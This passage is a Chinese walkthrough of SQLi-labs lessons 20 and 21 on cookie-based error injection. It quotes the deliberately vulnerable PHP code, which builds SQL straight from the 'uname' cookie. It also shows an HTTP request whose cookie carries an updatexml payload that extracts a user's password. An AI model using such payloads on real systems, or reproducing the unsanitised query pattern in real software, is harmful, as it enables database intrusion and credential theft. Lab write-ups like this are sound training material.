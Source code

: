 ## less-20 cookie 报错注入

```php
$cookee = $_COOKIE['uname'];
$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
$result=mysql_query($sql);
if (!$result)
        {
        die('Issue with your mysql: ' . mysql_error());
        }
$row = mysql_fetch_array($result);
if($row)
        {
        echo '<font color= "pink" font size="5">';
        echo 'Your Login name:'. $row['username'];
        echo "<br>";
        echo '<font color= "grey" font size="5">';  
        echo 'Your Password:' .$row['password'];
        echo "</font></b>";
        echo "<br>";
        echo 'Your ID:' .$row['id'];
        }
else
        {
        echo "<center>";
        echo '<br><br><br>';
        echo '<img src="../images/slap1.jpg" />';
        echo "<br><br><b>";
        //echo '<img src="../images/Less-20.jpg" />';
        }
```

和上面一样的，换成cookie了

```http
GET /Less-20/index.php HTTP/1.1
Host: 192.168.27.14
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Cookie: uname=Dumb'- updatexml(1,concat(0x7e,(select password from users limit 0,1),0x7e),1)-'
```

## less-21 cookie base64 报错注入

```php
$cookee = $_COOKIE['uname'];
$cookee = base64_decode($cookee);
echo "<br></font>";
$sql="SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1";
$result=mysql_query($sql);
if (!$result)
        {
        die('Issue with your mysql: ' . mysql_error());
        }
$row = mysql_fetch_array($result);
if($row)
        {
        echo '<font color= "pink" font size="5">';
        echo 'Your Login name:'. $row['username'];
        echo "<br>";
        echo '<font color= "grey" font size="5">';  
        echo 'Your Password:' .$row['password'];
        echo "</font></b>";
        echo "<br>";
        echo 'Your ID:' .$row['id'];
```